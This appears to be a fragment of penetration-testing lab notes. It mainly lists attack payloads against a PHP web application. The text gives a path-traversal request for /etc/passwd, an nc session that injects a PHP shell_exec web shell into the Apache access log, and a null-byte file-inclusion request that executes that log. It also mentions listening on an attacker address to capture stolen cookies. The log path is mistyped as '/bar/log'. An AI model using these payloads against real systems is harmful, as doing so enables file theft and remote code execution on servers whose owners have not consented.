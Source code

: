     * listen on 10.11.0.5 and copy cookie to cookie+

  * file inclusion 

    * ```html
      blah.php?LANG=../../../../../../../../../../etc/passwd
      ```

  * file inclusion/execution

    * ```bash
      nc -nv 10.11.1.35 80
      (UNKNOWN) [10.11.1.35] 80 (http) open
      <?php echo shell_exec($_GET['cmd']);?>

      HTTP/1.1 400 Bad Request
      ```

    * ```html
      blah.php?LANG=../../../../../../../../../../bar/log/apache2/access.log%00
      ```

    * ​

